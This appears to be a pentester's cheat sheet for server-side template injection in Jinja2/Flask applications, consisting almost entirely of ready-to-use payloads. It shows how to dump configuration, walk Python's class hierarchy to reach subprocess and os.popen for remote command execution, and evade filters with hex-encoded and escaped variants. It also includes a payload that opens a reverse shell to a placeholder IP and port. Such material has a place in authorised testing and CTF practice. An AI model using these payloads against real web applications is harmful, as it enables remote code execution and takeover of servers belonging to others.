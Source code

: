 # jinja2 flask SSTI

## Info

```
Method Resolution Order (mro): allows to go up the inherited objects chain
subclasses: going down the inheritance chain
```

## Jinja2 Templates

Jinja2 supports templates for the format

* `{{ ... }}`
* `{% ... %}`

## subprocess.pOpen method

```
# print all config vars
{{config}}
{{self.__dict__}}
{{config.items()}}

# find the mro object[X] to list all subclasses
{{ ''.__class__.__mro__ }}
{{ ''.__class__.__mro__[X].__subclasses__() }} => list of all subclasses

# find subprocess.pOpen class
{{ ''.__class__.__mro__[X].__subclasses__()[XXX] }} => <class 'subprocess.pOpen'>

# RCE
{{ ''.__class__.__mro__[X].__subclasses__()[XXX]('id', shell=True, stdout=-1).communicate() }}
```

## RCE Styles

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

### brute-RCE (without guessing mro class)

```
{% for x in ().class.base.subclasses() %}{% if "warning" in x.name %}{{x()._module.builtins['import']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("IP",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

## Bypass restrictions (1)

```bash
# https://hackmd.io/@Chivato/HyWsJ31dI

{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("ls").read()}}
    {%endif%}
{%endfor%}

# is converted (via hex encoding)

{% for a in []["5F5F636C6173735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F626173655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F737562636C61737365735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]() %}
    {% if "7761726E696E67"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78") in a["5F5F6E616D655F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")] %}
        {{a()["5F6D6F64756C65"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F6275696C74696E735F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]["5F5F696D706F72745F5F"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6F73"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["706F70656E"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]("6563686F2024666C6167"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78"))["72656164"["\x64\x65\x63\x6F\x64\x65"]("\x68\x65\x78")]()}}
    {%endif%}
{%endfor%}
```

## Bypassing restrictions (2)

```bash
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}
# modifying {{ }} to a different method using {% %}
# modifying ' to "
# modifying _ to \x5f

{% request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() %}

# using with
|  {% with %} ... {% endwith %} 

{% with kashz=request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()  %} kashz {% endwith %}

# can trying bas64 payload
```

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) 
* [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
* [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html)
* [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)
